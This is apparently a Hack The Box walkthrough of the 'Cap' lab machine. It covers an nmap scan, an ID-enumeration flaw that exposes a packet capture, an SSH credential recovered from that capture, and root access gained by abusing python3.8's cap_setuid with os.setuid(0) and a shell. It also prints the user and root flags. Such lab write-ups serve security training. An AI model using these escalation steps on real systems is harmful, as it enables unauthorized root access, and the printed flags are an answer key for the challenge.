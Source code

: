 # Cap
> Write-up author: jon-brandy

## Lesson learned:
- Exploiting python3.8 cap_setuid.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/92cc6711-5f1a-4d7a-92d4-f836a38496c3)



## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.10.245 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-12 10:06 PDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:07:00 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/12%Time=64D7BC2E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Sat,\x2012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sat,\x2
SF:012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20S
SF:at,\x2012\x20Aug\x202023\x2017:07:00\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.15 seconds
```

It seems the machine allows ssh login and there's a web application running. 

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85bce359-8ad2-455c-9e21-e1ff0bc6da61)


After clicked the security snapshot, I noticed there's an ID at the url.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d96dc3b-9be5-4925-a34d-47115df003dc)


Well it seems we can traverse to any network results, found the result that should be our interest at id 0.

> INTEREST (number of packets captured is larger then the others).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf964b57-90be-44b7-9ffc-2dc3138fcee8)


> WIRESHARK FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/39c02828-5452-403f-b9bb-2b5fccdb9a8a)


After followed through every tcp stream, found a cred at 3rd tcp stream.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5c5f493-7475-4026-8233-8c9aa812e5dc)


Let's do ssh login.

> nathan:Buck3tH4TF0RM3!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/77201f6b-f429-48e6-be32-356481f94950)


> USER FLAG

```console
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
df948242cd2265ee3b0c7979f5995c29
nathan@cap:~$ 
```

## USER FLAG

```
df948242cd2265ee3b0c7979f5995c29
```

To get the root flag, maybe this is kinda unintended, based from the challenge title, it reminds me of `getcap` for python version.

> USING GETCAP TO IDENTIFY CAPABILITIES

```console
nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The capabilities is not the default setting, `CAP_SETUID` allows the attacker to gain privesc without the `SUID` bit set. Here's how:

> PRIVILEGE ESCALATION

```console
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/sh')
# whoami
root
# 
```

We got root!

```console
# ls /root              
root.txt  snap
# cat /root/root.txt 
a2426fa1f3878250b8b12efe990ebc4a
# 
```

## ROOT FLAG

```
a2426fa1f3878250b8b12efe990ebc4a
```
